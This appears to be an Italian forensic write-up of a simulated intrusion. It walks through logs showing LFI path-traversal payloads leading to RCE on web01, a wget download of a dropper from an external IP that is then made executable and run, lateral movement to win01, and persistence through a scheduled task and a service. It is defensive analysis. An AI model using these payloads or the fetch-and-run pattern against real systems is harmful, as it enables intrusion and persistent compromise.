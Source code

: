 



# logs 
Web server logs
![Web server logs](../image/2a.png)

Application / Service logs
![ Application / Service logs](../image/2b.png)

Security logs
![ Security logs](../image/2c.png)



# Accesso Iniziale: Da LFI a RCE su web01
```
Initial Recon / Exploitation on web01
 └── 09:12:14 web01 nginx --> LFI: /reports/view.php?doc=../../../../../../etc/passwd (trace_id=tr-A)
     └── php-fpm → accessed /etc/passwd
 └── 09:12:16 web01 nginx -> LFI: /download.php?file=../../../var/log/auth.log (trace_id=tr-B)
     └── php-fpm → accessed /var/log/auth.log
 └── 09:12:18 web01 nginx -> LFI: /app/help.php?topic=../../../../proc/self/environ (trace_id=tr-A)
     └── auditd → SYSCALL: php-fpm spawns /usr/bin/bash -c "id; uname -a" → RCE confirmed
 └── 09:15:27 web01 nginx --> Attempted LFI on config.php (trace_id=tr-A) → PHP error / php-fpm crash & restart
```


Alle 09:12:14, ho notato una richiesta GET sospetta alla pagina view.php con un parametro doc che cercava di accedere a:

`../../../../../../etc/passwd`

All’inizio può sembrare solo un test, ma dal log di php-fpm ho visto che il file /etc/passwd è stato effettivamente letto. A quel punto ho capito che il server era vulnerabile a LFI (Local File Inclusion).
Pochi secondi dopo, alle 09:12:16, un’altra richiesta simile ha colpito download.php, cercando di leggere` ../../../var/log/auth.log`. Anche questa volta, il file è stato servito con successo. Questo mi ha fatto pensare che l’attaccante stesse mappando i file interni del sistema.
Il passaggio più critico è avvenuto alle 09:12:18, con una richiesta a:
`help.php?topic=../../../../proc/self/environ`
Questa tecnica è spesso usata per ottenere variabili d'ambiente e avviare codice malevolo. Infatti, il log di auditd conferma che php-fpm ha eseguito `/usr/bin/bash -c "id; uname -a"` 
 Qui ho avuto la conferma... l’attaccante ha ottenuto esecuzione di comandi sul server , quindi siamo passati da LFI a RCE (Remote Code Execution).
Infine, alle 09:15:27, è stato fatto un tentativo su export.php per leggere il file config.php. Ma qualcosa è andato storto.. il php-fpm ha generato un errore e si è bloccato, come confermato dai log di sistema. Il servizio si è poi riavviato automaticamente.
In breve, l’attaccante è partito leggendo file di sistema, ma è riuscito ad arrivare all’esecuzione remota di comandi. Un’escalation chiara e pericolosa.


# Fase di Attacco: Consegna del Payload su web01
```
 Payload Delivery on web01
 └── 09:18:41 web01 nginx -> LFI: /download.php?file=../../../../etc/hosts (trace_id=tr-B)
     └── 09:18:42 auditd -> wget http://198.51.100.91/.s → saved as /tmp/.svc
     └── 09:19:03 auditd -> chmod +x /tmp/.svc
     └── 09:19:07 auditd  --> /tmp/.svc --ping (dropper executed)
```
Alle 09:18:41, ho visto un’altra richiesta LFI, questa volta rivolta a download.php con il parametro `file=../../../../etc/hosts` . A prima vista sembrava simile alle precedenti, ma subito dopo ho notato qualcosa di diverso.
Solo un secondo dopo, alle 09:18:42, auditd registra un comando wget che scarica un file da un server esterno (IP: 198.51.100.91) e lo salva come /tmp/.svc. Questo file mi ha subito fatto pensare a un dropper, cioè un piccolo programma usato per caricare malware.
Poco dopo, alle 09:19:03, il file viene reso eseguibile con `chmod +x /tmp/.svc` , e finalmente, alle 09:19:07, viene eseguito con il comando:
`/tmp/.svc –ping`
Questo mi conferma che il payload è stato non solo consegnato, ma anche attivato. A quel punto, l’attaccante aveva un suo file eseguibile in funzione sul server ...segno chiaro che l'infezione era in corso.

# Movimento Laterale: Tentativo da web01 verso win01

```
Lateral Movement Attempt from web01 -> win01
 └── 09:21:05 web01 auditd -> python3 one-liner to ssh admin@win01 (trace_id=tr-A)
     └── 09:24:11 win01 Security -> Logon failure admin from 10.10.5.21
     └── 09:24:59 win01 Security -> Successful logon svc_webapp from 10.10.5.21

```
Alle 09:21:05, ho notato un comando eseguito tramite python3 da web01 che cercava di avviare una sessione SSH con l’utente admin@win01. Era una one-liner classica, del tipo usato per tentare un accesso veloce e silenzioso.
Il tentativo però fallisce, come indicato nel log di sicurezza di win01 alle 09:24:11, che riporta un errore di accesso per l’utente admin proveniente dall’indirizzo IP 10.10.5.21 (cioè il server web01). Fin qui, sembrava solo un test o un primo tentativo manuale.
Ma alle 09:24:59, la situazione cambia: c’è un accesso riuscito, stavolta con l’utente svc_webapp, dallo stesso IP. Questo suggerisce che l’attaccante aveva già credenziali valide per questo account o che le aveva ottenute poco prima. A quel punto, era riuscito a spostarsi dal server Linux (web01) al sistema Windows (win01) ...movimento laterale completato.

# Persistenza: Installazione di Meccanismi su win01

```
Persistence on win01
 └── 09:25:07 TaskScheduler EventID=106 -> Task registered "\System\UpdaterCache"
     Action = powershell.exe -File C:\ProgramData\upc.ps1 (trace_id=tr-B)
 └── 09:25:11 Sysmon 11 -> FileCreate C:\ProgramData\upc.ps1 (by powershell.exe)
 └── 09:25:42 SCM EventID=7045 --> Service installed "WinCacheSvc" → wincache.exe auto start
 └── 09:26:03 TaskScheduler EventID=201 --> Task "\System\UpdaterCache" started
```
Subito dopo l’accesso riuscito, l’attaccante inizia a stabilire persistenza sul sistema win01. 
09:25:07, ho visto che viene registrato un nuovo task pianificato chiamato \System\UpdaterCache. L’azione associata al task esegue powershell.exe con uno script:
`C:\ProgramData\upc.ps1`
Quattro minuti dopo, alle 09:25:11, Sysmon conferma la creazione del file upc.ps1, eseguito tramite PowerShell. Questo mi fa pensare che il file sia stato generato dinamicamente proprio in quel momento, probabilmente da un comando remoto.
Poi, alle 09:25:42, un nuovo servizio di sistema viene installato: WinCacheSvc, con wincache.exe impostato per l’avvio automatico. Questo è un classico esempio di persistenza tramite servizio Windows .... una tecnica usata per sopravvivere ai riavvii del sistema.
Infine, alle 09:26:03, il task pianificato UpdaterCache viene effettivamente avviato. A questo punto è chiaro: l’attaccante non solo ha avuto accesso al sistema, ma ha anche piazzato meccanismi per restare attivo nel tempo.


